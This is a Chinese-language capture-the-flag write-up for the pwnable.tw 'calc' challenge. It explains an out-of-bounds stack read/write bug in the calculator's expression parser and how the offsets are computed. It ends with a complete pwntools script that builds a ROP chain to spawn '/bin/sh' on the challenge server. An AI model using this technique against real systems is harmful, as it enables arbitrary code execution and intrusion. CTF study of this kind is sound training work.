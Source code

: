 这题实现了一个简单的计算器功能，主要是一个逻辑漏洞

在 get_expr() 中读取

在 parse_expr() 中处理

核心代码

![](https://space.0bs3rver.workers.dev/0bs3rver/Picture/master//blogimg/pwnablekr-calc-4.png)

运算函数

![](https://space.0bs3rver.workers.dev/0bs3rver/Picture/master//blogimg/pwnabletw-calc-2.png)

需要注意的是，这里处理的时候是以 num[0] 为基准来判断操作数的位置，而当我们输入的是运算符+操作数

例如 +300 的时候

```
num[0] = 1  num[1] = 300

a2 = "+"
```

此时 num[\*num - 1] += num[\*num]; 即 num[0] = num[0] + num[1] = 301

然后 num[0] -- ，所以最后输出给用户的值实际上是 num[300] ，这就造成了任意读

而如果我们构造 +300-100 就会对栈上的值运算后再输出，这就造成了任意写

通过 ida 可以看到，num 距离当前栈的起始位置为5A0h=1440字节，也就是1440/4=360个栈单元，而众所周知，返回地址是在当前ebp位置的前一个位置入栈，也就是说，返回地址距离 num 的地址为361个栈单元即num[360]

所以我们可以构造 ROP 链来修改栈内容，从而 get shell

![](https://space.0bs3rver.workers.dev/0bs3rver/Picture/master//blogimg/pwnableke-calc-3.jpg)

其中需要重点关注的是 "/bin/sh" 字符串的地址，我们能获得到当前ebp所指向栈的基址内的值，这个值是main函数的ebp值，也就是main函数的栈基址。

从下图可以看出，main函数的栈空间大小由main函数的基址决定，大小值为：

```
main_stack_size=main_ebp&0xFFFFFF0 - 16
```

![](https://space.0bs3rver.workers.dev/0bs3rver/Picture/master//blogimg/pwnabletw-calc-5.png)

目前可知“/bin/sh”字符串的地址（369）与返回地址（361）之间的距离为8，而main函数栈基址与返回值之间的距离为：

```
d_mainebp_ret=main_stack_size/4 + 1
```

也就推得“/bin/sh”字符串的地址为：

```
addr_binsh=main_ebp+(8-d_mainebp_ret)*4
```

exp

```python
from pwn import *

HOST = 'chall.pwnable.tw'

PORT = 10100

vals=[0x0805c34b,11,0x080701aa,0,0x080701d1,0,1,0x08049a21,0x6e69622f,0x0068732f]

con = remote(HOST,PORT)

print con.recv()

start=361

for i in range(0,6):

	con.send('+'+str(start+i)+'\n')

	val=int(con.recv(1024))

	diff=vals[i]-val

	if diff<0: #正负数注意符号

		con.send('+'+str(start+i)+str(diff)+'\n')

	else:

		con.send('+'+str(start+i)+'+'+str(diff)+'\n')

	resl=int(con.recv(1024))

	print (str(start+i)+': '+'%s'%hex(resl))

#addr of '/bin/sh'

con.send('+360'+'\n')

mebp=int(con.recv(1024))

mstacksize=mebp+0x100000000-((mebp+0x100000000) & 0xFFFFFFF0-16)
#这里+0×100000000是因为recv到的mebp是栈上的地址，被识别为负数，所以加上0x100000000修正，它表示main函数的基地址。

bin_sh_addr=mebp+(8-(mstacksize/4+1))*4

con.send('+367'+'\n')

val_367=int(con.recv(1024))

diff_367=bin_sh_addr-val_367

con.send('+367'+str(diff_367)+'\n')

resl=int(con.recv(1024))+0x100000000

print ('367: '+'%s'%hex(resl))

for i in range(7,10):

	con.send('+'+str(start+i)+'\n')

	val=int(con.recv(1024))

	diff=vals[i]-val

	if diff<0:

		con.send('+'+str(start+i)+str(diff)+'\n')

	else:

		con.send('+'+str(start+i)+'+'+str(diff)+'\n')

	resl=int(con.recv(1024))

	print (str(start+i)+': '+'%s'%hex(resl))

con.interactive("\nshell# ")

con.close()
```

参考：https://www.freebuf.com/articles/others-articles/132283.html
